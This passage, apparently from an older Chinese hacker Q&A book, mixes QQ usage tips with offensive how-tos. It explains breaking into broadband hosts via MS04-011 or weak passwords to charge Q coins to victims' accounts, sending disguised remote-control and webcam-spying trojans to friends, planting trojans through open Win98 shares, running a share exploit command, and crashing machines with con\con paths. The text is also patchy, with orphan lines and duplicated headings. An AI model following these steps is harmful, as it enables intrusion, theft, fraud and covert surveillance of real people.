  另外一种方法：登录未绑定手机的 QQ，出现“开通手机服务”页面时不要关闭；先加自己为好友，再在该页面选择“开通短信超人”并下一步，无需验证码。几秒后 QQ 头像旁会出现手机符号。

- **如何免费冲 QQ 币？**  
  先找广东省宽带主机（可通过 IP 段、地区 MM 等方式），再通过远程溢出（如 MS04-011 漏洞或 NT 弱口令）入侵对方，使用木马或开启 3389 终端服务（需 Win2000 服务器版）登录。  
  到 `http://gd.chinavnet.com`（互连星空）点击左侧“用 vnet 帐号 Q 币充值”，或访问 `http://vnet.qq.com/gd/vnet.jsp`，填 QQ 号和充值数量。一台“肉鸡”最多可冲 200 个 QB，满足促销条件可再送 10 个 Q 币；若对方已充过则需更换目标。

- **如何免费得到 QQ 币？**  
  先登录 `http://game.qq.com/qqshow/`，在左侧登录框用 QQ 号登录；再打开 `http://game.tencent.com/qqshow/qqshow_dtdc.htm`，回答问题后可免费获得 2 个 QQ 币。  
  但以下号段用户不能获得：`249000000-254999999`、`270000000-284999999`、`231000000-233999999`。

- **如何免费得到 QQ 物品？**  
  先申请多个 QQ 新号（当时可免费申请），按上面方法让这些新号各得到 2 个 QQ 币，并互加好友；再用新号登录 QQ 秀，选择喜欢的物品点击“赠送”，输入自己的 QQ 号完成转赠，从而得到 QQ 物品。QQ 币本身不能直接转移，只能通过赠送方式实现。

要通过代理就可解决了。

每天上线，都有许多好友发过来视频聊天邀请，烦死了，总不至于需要的时候就插上摄像头，不需要的时候就拔掉摄像头吧，有没有办法不让好友知道自己有摄像头呢？

我们可以通过禁用摄像头的方法来解决这个问题。打开“设备管理器”，找到“图像处理设备”下的摄像头“ZSMC USB PC Camera”，右键点击“禁用”。此时再运行 QQ，就不会检测到摄像头的存在。当 QQ 登录成功以后，在“设备管理器”中重新“启用”摄像头即可。

我想把 QQ 隐藏起来，让别人从表面上完全看不到我的 QQ 正在运行，只有我自己才能随时调出它来和朋友联系，可不可以呢？

首先在 QQ 在线的状态下点击系统托盘中的 QQ 图标，在菜单中选择“系统参数”→“参数设置”选项，去掉“在任务栏显示图标”复选框前面的“√”，这样系统托盘中的小企鹅图标就消失了，实现第一步隐藏。然后再取消“自动弹出信息”前面的“√”，将“设置提取消息热键”中的“使用热键”打上“√”，现在你可以使用默认热键“Ctrl+Alt+Z”或者自定义热键来激活 QQ 聊天了。另外注意，将“好友上线通知”前面的“√”也去掉。接着在“QQ 参数设置”对话框中点击“声音设置”标签，选择“关闭声音”。最后把 QQ 窗口拖到显示器边角上，让它也隐藏起来！好了，现在你的 QQ 已经完全变成隐身 QQ 了！

有没有什么方法可以让我迅速地找到同城网友？

使用 QQ 提供的在线分类查找功能，不过这个功能只向会员开放，对于非会员来说就没法使用了。可以使用其他的搜索工具，比如“网际搜 Q”，它可以快速准确地帮助你分类查找在线好友，而且是完全免费的！这款软件使用界面简单明了，上手极其容易！它分为简单搜索与复杂搜索两个级别，其简单搜索功能与 QQ 的“查找”功能类似。至于它的复杂搜索功能，你只要输入地区、性别、年龄等条件，然后按下搜索键，马上便会得到准确的搜索结果了。

我想在群里发送很多的 QQ 头像，可是每次只能一个个地选择，不能直接进行头像的复制、粘贴，很麻烦，有没有好的解决方法呢？

解决方法当然是有的。打开 QQ，点击“选择表情”图标，此时会出现 QQ 自带的（也包括以后自己添加的）许多头像，把鼠标停在自己要使用的头像上，就会看到该头像的代码了（图7）。把代码复制到记事本中，然后复制，就会很方便地粘贴在 QQ 的信息发送框中了。但要注意的是，这个方法不支持自定义表情符号，只支持 QQ 本身自带的。另外，如果发送的头像非常非常多的话，群里的其他人打开群的时候，可能会因为系统资源消耗太大而致使 QQ 停止响应。

## 第二招

我在使用 QQ 与好友聊天的时候，他们发过来的文字居然是横着的，害得我不得不扭着脖子看，这是如何实现的呀？

与好友聊天或是在 QQ 群里发信息时，点击“A”，也就是设置字体颜色和格式，在字体栏的上方会看到许多前边加了“@”的字体（图8），这些加了“@”的字体就是倾斜的字体，选择好后，再给好友发送信息，就变成横着的了（图9）。

如何在我的 QQ 中发送彩字呀？

在网上关于发送彩字的工具有许多，我就简单地介绍一款 QQ 同发彩字 3.0。这个工具在安装的时候要注意一点，就是安装的目录一定得是你的 QQ 的目录才行（图10），安装完成后，重新登录 QQ，你就会在 QQ 的自定义表情里看到许多彩字了（图11）。

🙂 我有许多好友，他们的个人资料中什么也没有，这些资料有没有什么方法可以查到呀？

😆 事实上有许多人在注册 QQ 的时候都会填写个人资料的，不过后来嘛，因为别的原因，就会把个人资料从 QQ 中清除，这样在 QQ 中就看不到自己的个人资料了。但是他们忘记了，有许多资料并不是只被保存在 QQ 中的。我们访问如下的网址：http://search.tencent.com/cgi-bin/friend/user_show_info?ln=21****72。其中，最后的 21****72 就是对方的 QQ 号码，就可以看到对方的资料了（图12）。

🙂 如何在 QQ 中实现文件的共享呀？

😆 登录 QQ，点击最左下角的“菜单”（图13），在弹出的菜单中选择“工具”->“共享文件”，选择上方的“新建共享”，出现“新建共享”菜单（图14）；我们输入共享名、共享的目录、描述，在“安全参数”中输入访问的密码，这样会使共享变得安全一些，不然任何人都可以直接访问。在“身份限制”项中主要有三个选择项，分别为“允许任何人访问”“允许所有好友访问”“只允许以下成员访问”（图15）。如果我们前边已经设置了访问密码的话，在这儿就可以选择“允许所有好友访问”，把访问密码发给对方，他就可以远程访问你的共享了。如果你在前边没有设置访问密码的话，在这儿可以使用“只允许以下成员访问”，添加特定的好友后，他也就可以直接访问了。在“禁止访问”项中，使用默认的“禁止黑名单成员访问”就可以了。

我们远程访问的时候，在“共享文件”中选择“浏览共享”，上边的地址栏中输入 `QQ:\\对方QQ号码`，就可以显示出对方设置好的共享文件了（图16）。

确定后，我们就会看到已经设置好的共享文件夹了。如果想取消共享的话，只需要先选中设置好的共享，然后点击上边的“取消共享”就可以清除共享了。

## 如何随意地发送屏幕截图？

有时我们在 QQ 上与好友聊天的时候，特别是语言上不好描述时，需要给好友发送截图。此时我们就可以使用 QQ 上的“捕捉屏幕”（或按快捷键 Ctrl+Alt+A），此时屏幕上就出现了一个彩色的箭头，用鼠标拖选要截取的图（如果想退出屏幕截图状态，可以按 Esc 键），然后双击它，截取的图就会出现在 QQ 发送信息的窗口中了（图17）。

为什么好友发过来的图片和自定义表情符号，在我的 QQ 中显示出来的是个红色的小叉呢？

对于早期的 QQ 版本是不支持发送图片和自定义表情符号的，你可以升级到目前最常用的 QQ2004 版本就可以解决这个问题了。

腾讯 TM 是什么，能简单地介绍一下吗？

腾讯 TM，即 Tencent Messenger 的简称，这是腾讯最新推出的一款面向个人的即时通讯软件，较侧重在办公环境中的应用。同 QQ 一样，腾讯 TM 也是免费的。QQ 面向所有用户，提供沟通、交友、娱乐等多方面服务。TM 则面向在办公环境中有使用 IM 需求的用户，侧重于熟人间的沟通和联系。TM 可以使用 QQ 账号或手机号码登录，用户可以根据自己的需要，使用 TM 或 QQ（两者间可以相互切换），但同一时刻，只能登录 TM 或者 QQ。不过，事实上，我在我的 Win2000 高级服务器版上，是可以同时运行腾讯 TM 和腾讯 QQ（珊瑚虫 2004 版）的。

如何相互切换腾讯 TM 及腾讯 QQ？

登录 QQ，点击最左下角的“菜单”，选择“一键切换到 TM”。如果是没有安装过腾讯 TM 的话，此时会出现一个下载窗口（图18）。点击“立即下载”，就会下载腾讯 TM 的安装程序了。它的安装很简单，几乎和 QQ 的安装是一样的。启动后，用我们的 QQ 号码登录（图19）。

安装过的话，那么选择“一键切换到 TM”后，就会自动出现 TM 了。再让我们来看一下该如何切换到 QQ：点击腾讯 TM 上方的“文件”，选择“一键切换到 QQ”，也会非常方便地自动切换成 QQ 了。

随着 QQ 应用的广泛，讨厌的 QQ 病毒也流行了起来。关于此类病毒的查杀，实际上目前国内常用的杀毒软件瑞星、KV3000 以及金山毒霸等也都具备查杀功能。不过，我仍然建议使用专门的 QQ 病毒查杀工具，比如瑞星 QQ 病毒专用查杀工具等（图21）。

## 能不能简单地介绍一下 QQ 密码防盗专家？

QQ 密码防盗专家是一款常用的 QQ 保护软件，它采用的是 QQ 标题动态更新法，以及 QQ 子窗体内核属性修改法，可以轻松地拦截 QQ 木马。启动后的界面（图20），默认状态下就可以对 QQ 木马等进行防范了。当然它的实际功能远比这强大，包括了取回密码、内核修改、自动聊天、好友查找、QQ 病毒查杀、QQ 外挂、聊天记录管理、QQ 头像永远在线修改、QQ 超大汉字发送等。

## 如何才能确定好友是处于在线状态还是隐身状态呢？

双击好友的 QQ 头像，打开收发信息的窗口，单击语音视频聊天（图22），请求和对方开始语音视频聊天。这时，如果对方在线，对方的桌面上就会弹出一个视频聊天的窗口。一般人都很讨厌这个窗口，都会随手关闭或者点拒绝，这时我们这边的 QQ 中就会显示对方拒绝语音视频聊天，这当然也就表明了对方是在线，只是处于隐身状态。而如果一直没有反应的话，则表明对方并不在线。

当然还有一种例外，就是对方实际上是隐身状态，但对于这个语音视频聊天的请求不做任何处理，也不关闭，这样我们就不好判断了。不过，好在这种情况不是太常见的。

除了利用上边那个方法外，还可以通过发送免费贺卡来进行判断。我们登录 http://ecard.qq.com/index.html，进入 QQ 贺卡站。找到价格为 0 个 Q 币的贺卡（图23，没办法，谁叫我们是穷人呀，连 1 个 Q 币也付不起的，哭ing），点“发送”按钮，出现 QQ 贺卡用户登录。成功登录后出现发送网页，输入对方的 QQ 和昵称，勾选上“对方收到贺卡后通知我”，一路点击“下一步”就可以了。这样发送的贺卡，在对方那里会收到系统信息提示。大部分用户都会点一下系统信息，只要他查看了这个系统信息，我们这里就会收到一封回执，这也就表明了对方的状态是在线的。事实上，上边的两种方法使用的原理都是差不多的，都是利用对方的回复信息来进行判断。

- 如何使用 QQ 远程控制别人的电脑？

在这儿我推荐一个小工具，QQ 远控任我行，目前为 1.0 版本。解压缩后有两个主要的文件 QQrwx.exe 以及 sm.dll，还有一个帮助说明文件（图24）。

它没有控制端，你唯一要做的，就是把 QQrwx.exe（可以改成别的名字或是与图片捆绑在一起）和 sm.dll 传送给 QQ 上的好友，并让对方执行 QQrwx.exe，其他的控制通过 QQ 就可以完成了。但有一点儿要注意，我们是通过 QQ 发送的消息来控制对方电脑的，对方接受你发过来的消息时，必须是消息模式（图25），而不能是聊天模式（图26），否则命令不能成功执行。

因为我们是通过发送 QQ 消息的方式来控制对方电脑的，为了不引起对方的怀疑，自然不能赤裸裸地发送“关闭电脑”“弹出光驱”等命令，不然连傻瓜都会知道是你控制了他。事实上只要我们在发送的 QQ 消息中包括特定的控制语句就可以了，比如“你能告诉我如何显示任务栏吗？”“真讨厌，昨天我注销用户的时候，突然停电了”等等。

下边列出所有发送的控制语句以及其解释说明：

| 控制语句 | 解释 |
|---|---|
| 注销用户 | 注销对方已经登录的用户 |
| 电脑重启 | 重新启动对方电脑 |
| 显示桌面 | 显示对方桌面上的图标 |
| 隐藏桌面 | 隐藏对方桌面上的图标 |
| 锁定桌面 | 锁定对方桌面，对方不能对桌面的图标进行操作 |
| 解锁桌面 | 解除对方电脑桌面的锁定状态 |
| 锁定开始 | 隐藏对方电脑上的“开始”按钮 |
| 解锁开始 | 解除对对方电脑“开始”按钮的锁定状态 |
| 显示任务栏 | 显示对方电脑的任务栏 |
| 隐藏任务栏 | 隐藏对方电脑的任务栏 |
| 锁定任务栏 | 锁定任务栏中的所有任务 |
| 解锁任务栏 | 解除对对方任务栏中的所有任务的锁定状态 |
| 锁定启动栏 | 锁定对方电脑的快速启动一栏 |
| 解锁启动栏 | 解除对对方电脑的快速启动栏的锁定状态 |
| 我的电脑 | 打开对方的“我的电脑” |
| 我的文档 | 打开对方的“我的文档” |
| 打开 IE | 打开对方的“IE”浏览器 |
| 环形图标 | 让对方电脑的图标以环形排列 |
| 对称图标 | 让对方电脑的图标以两边对称排列 |
| 右图标 | 让对方电脑的图标从右边排列 |
| 还原图标 | 还原对方的图标排列方式 |
| 删除墙纸 | 删除对方电脑桌面的墙纸 |
| 屏幕保护 | 启动对方电脑的屏幕保护功能 |
| 关闭电脑 | 把对方的电脑关闭 |
| 弹出光驱 | 弹出对方的光驱 |
| 关闭光驱 | 关上对方的光驱 |
| 锁定鼠标 | 锁定对方的鼠标 |
| 解锁鼠标 | 解除对方鼠标的锁定状态 |

双击要发送消息的好友的头像，然后点击 QQ 聊天器中间的“发送”按钮，自动聊天器就会把语句框中的语句自动发给对方了（图28）。

## 如何把我的 QQ 设置成永远在线呢？

将 QQ 设置成永远在线的工具有许多，下边我就介绍一个“QQ 超大汉字发送器 + QQ 头像永远在线修改器 2004 终结版”。运行后如图27，按照自己的需要填好资料后单击“生成”就会生成一段代码，单击“复制”，把该段代码复制下来，粘贴到我们个人资料的“个人主页”栏中，更新后就可以永远在线了。

## QQ 自动聊天器该如何使用？

我们先启动 QQ 自动聊天器，在最上方有三个手的图标，点击最左边的那个，打开“语句框”；点击最右边的那个，打开“编辑框”。在“编辑框”里有使用方法，也可以添加语句。

## 我安装了 QQ 自定义表情后，虽然发送 QQ 表情方便多了，可是我现在输入的……

所有文字都是 QQ 表情形式的（图29），这样也太麻烦了吧，如何取消呢？

可以这样解决：在消息发送窗口中点鼠标右键，在弹出的小菜单中选择“取消转义符输入表情”（图30），再输入消息的时候就变成正常字体的了。

这是因为设置了“使用自定义快捷键”，点击“选择表情”图标就会看到了（图31），把前边的勾去掉，就正常了。

我如何为几个常用的 QQ 自定义表情设置快捷键？

点击“选择表情”图标，在最左下角就会看到“添加自定义表情”按钮了（图32）。点击后就会出现“表情管理”菜单了（图33），选择好自己要设置的 QQ 表情并双击它，默认的快捷方式一栏中的数字就会变成蓝色可以修改了（图34），把它改成自己想要的快捷键，确定后就可以了。以后在发送消息的时候，直接按快捷键，那个自定义表情就会出来了。同样的，在这儿我们也可以管理这些自定义表情，比如添加、删除等。

我使用 QQ 在给好友发送消息的时候，为什么按下数字“1”就会出现一张图片呢？

## QQ 强制视频软件是如何使用的？

网上关于实现 QQ 强制视频的工具有许多，其实这些小工具的使用和其他的 QQ 木马的使用方法大致类似：将程序伪装一下，改个名字，或是与图片捆绑在一起，发送给 QQ 上的好友。当然需要对方有摄像头，当对方运行以后，就会自动发送过来一个视频聊天的请求，而这个请求对方是根本不会知道的。这样，你就可以偷偷地看到对方了。

## 第二章

## 惊喜奖

## Windows98/ME 系统常见基础问题

## Windows9x/ME 系统常见基础问题

- 我使用的是 Windows 9x/ME 系统，可是在运行流光5、X-scan3.1 的时候，怎么老是出错呀？  
事实上确实如此，流光5及 X-scan3.1 都只能运行在 WindowsNT/2000/XP/2003 系统平台上，而无法运行在 Windows9x/ME 系统平台上。除了这两个程序外，还有一些别的程序，比如 RPC Locator 的远程攻击程序、Windows Workstation 的远程攻击程序等，也都是不能在 Windows9x/ME 系统平台上运行的，除非你更换操作系统为 WindowsNT/2000/XP/2003。

- 为什么我在 Windows9x/ME 下使用 net use 命令来连接远程系统的 ipc$ 的时候，总是出错呢？  
只有 WindowsNT/2000/XP/2003 系统才可以建立 ipc$ 连接，而 Windows9x/ME 系统是不支持这种功能的，当然就会出错了。

- 既然我们使用 Windows9x/ME 系统受到这么多的限制，那是不是说，我们就不能使用 Windows9x/ME 系统来攻击别人了呢？  
使用 Windows9x/ME 系统只是受到了一些限制，不如使用 WindowsNT/2000/XP/2003 系统方便而已。有许多程序也都是可以在 Windows9x/ME 下运行的，像流光4就有 Windows9x/ME 版本，X-scan2.3 也是完全可以在 Windows9x/ME 下使用的，还有其他别的许多工具也都是可以的。

- Windows98 的共享漏洞是如何被入侵者应用的？  
对于网吧或内部局域网用户来说，直接打开“网上邻居”就可以看到所有提供共享资料的电脑了，双击这些电脑图标，就可以详细地看到该台电脑所提供的共享文件。在 Windows98/ME 系统中，共享的文件一共有三种设置方法，分别为“完全共享”“只读共享”以及是否使用密码访问。对于“完全共享”，我们可以像使用本地电脑文件一样来任意操作下载、上传、新建、修改文件内容等；而对于“只读共享”，我们只能进行下载。如果对方设置了密码的话，则必须输入正确的密码才可以访问共享资源。对于 Internet 用户来说，可以使用诸如 netview、网络刺客等工具来从网上搜索任意 IP 段的电脑来查找共享资源。

对于系统盘（通常为 C）共享，可以直接将设置好的木马服务端程序上传到对方 `c:\windows\start menu\programs\启动` 目录下，这样，当对方重启后，就会自动运行木马程序了。另外，针对 Windows 98 的共享漏洞，国外也曾经公布过一个远程攻击程序，专门用来攻击提供有密码保护的共享资源的电脑。其使用格式为：

```bash
win9xnetbiosex share
```

示例：一台名叫 tony 的 Win98 系统共享了 C 盘，但需要密码，则可使用：

```bash
win9xnetbiosex //tony/c
```

## 如何在命令行下使用 Windows 98 的共享？

我们可以在 Win98 的 DOS 窗口下运行 `net view` 命令，就可以查看到开放了共享的主机名称。例如列出了 `\\14`、`\\15`、`\\18`、`\\office` 这几台电脑，接着再使用 `net view \\14` 来查看名为 14 的电脑上提供的共享资源。比如显示出了 `ftp disk`、`officexp disk` 等，接下来就可以使用 `net use` 命令映射成本地磁盘：`net use x: \\14\ftp`、`net use y: \\14\officexp`。成功后即可像使用本地硬盘一样使用 x:、y:。最后别忘了删除映射：`net use \\14\ftp /delete`、`net use \\14\officexp /delete`。

## 使用 `net view` 命令默认只能查看本地局域网内的共享资源情况，但是对于 Internet 来说，如何具体使用呢？

一个是使用专用工具（如网络刺客、`netview` 等）搜索 Internet 上的共享资源；另一个是使用 `nbtstat -a IP地址` 命令，该命令可以获得远程主机上的用户信息，并获得目标主机名称和工作组，接下来就可以使用 `net view \\目标主机名称` 来探查对方是否存在共享资源，并进行映射访问。

## 攻击者是如何利用 Windows 98 的共享漏洞让远程电脑蓝屏死机的？如何防范这个问题呢？

点击“开始”->“运行”，然后在运行栏中输入 `\\ip\sharedirname\con\con`，对方的 Win98 系统就会因为 con 漏洞导致蓝屏死机。例如 IP 为 `192.168.0.100` 且提供了 `printer$` 共享时，可输入：`\\192.168.0.100\printer$\con\con`。除了 `con` 外，`nul`、`aux` 也可达到类似效果，包括不同组合：`\con\nul`、`\nul\aux`、`\aux\con`、`\con\aux`、`\aux\nul`、`\nul\con` 等。

对于该问题的解决，当前仍在使用 Win98 的用户已经很少，但建议相关用户取消共享，或者使用网络防火墙拦截共享资源的访问，或者升级至 WinME 及以上系统。


### 如何在 Win98 下打开 MS-DOS？

点击“开始”->“运行”输入 `command.com`，就会打开 MS-DOS 窗口了。

### 如何打开注册表？

点击“开始”->“运行”，输入 `regedit` 就可以打开注册表了。

## 如何使用 attrib 命令修改文件的属性？

attrib 命令的参数有以下这些：`[+r|-r][+a|-a][+s|-s][+h|-h]`。“+”号代表给文件添加属性，“-”号代表给文件去掉属性。“r”代表只读文件属性，“a”代表存档文件属性，“s”代表系统文件属性，“h”代表隐藏文件属性。我们直接运行 attrib 命令，会显示出当前目录下所有文件的属性。`attrib +a +r +s +h shutdown.exe` 将当前目录下的文件设置成存档、只读、系统、隐藏；`attrib -a -r -s -h shutdown.exe` 取消这些属性。

### 如何根据端口判断系统？

根据端口确定 Win2k/XP 系统比较容易，如果看到对方开放了 TCP 端口 135、445 的话，那么基本上可以确定对方为 Win2k/XP 的操作系统了。针对 Win98/ME 系统，一般是通过 139 端口来进行确认的，因为 Win98/ME 系统默认安装的时候会打开 NETBIOS 端口，因此就开放了 TCP 139 端口。

但是，有些 Win2k/XP 系统也会因为需要而打开 TCP 139 端口，不过还好，因为 Win2k/XP 的 135 端口是系统自动开放的，而且除了借助第三方软件以外，基本上没有办法直接关闭 135 端口。因此，看到只开放了 135 端口，或者开放了 135 和 139 端口的，基本上可以确定是 Win2k/XP 的操作系统；而只开放 139 端口的，是 Win98/ME 系统。

## 使用命令 `nbtstat -a 192.168.0.56` 的时候出现了“Host not found.”（图1），为什么会这样呀？



图1

## 引起这个错误的原因有以下几个：

- 对方不在线。
- 对方或是你没有安装 NETBEUI 协议并将 NETBIOS 绑定到 TCP/IP 上。
- 有一方安装有防火墙。

# 黑客问答一点通

### 如何像入侵 Win2k 一样给 Win98/ME 定时启动某些程序？

呵呵，这个问题麻烦了点儿。因为 Win98/ME 里没有像 Win2k 一样的 at 命令，不过还好，Win98/ME 中带有计划任务这个功能，我们可以利用它来做点手脚。

首先，在本地计算机上指定一个计划任务（本地机也要是 Win98/ME 才可以哦），例如，这里我指定了一个计划任务（图2）。

然后我们来到 `C:\windows\Tasks` 目录下（图3）（如果你的 Win98/ME 是安装在 C 盘的话，不是的话就自己去找吧），在这里会看到有一个文件，仔细对比一下就知道这就是我们刚才指定的计划任务了，OK。

既然到了这里，我们就把这个文件 copy 到对方的相同目录下，也就是 `C:\windows\Tasks` 目录下，这样就可以定时启动对方的某个程序了。

> 从整个过程来说，可以很容易地看出来，对方不但要共享出 Win98/ME 所在盘，而且还要有可写入的权限。另外，这些还不够，如果对方没有启动计划任务也没有用，因此还要保证对方启动了计划任务才可以。总之呢，比较难，good luck！



图2

Win98/ME 下怎么查看随机启动的程序都有哪些？

在 Win98/ME 下有一个实用程序 msconfig，中文译为“系统配置实用程序”。



图3

然后我们来到 `C:\windows\Tasks` 目录下



图4

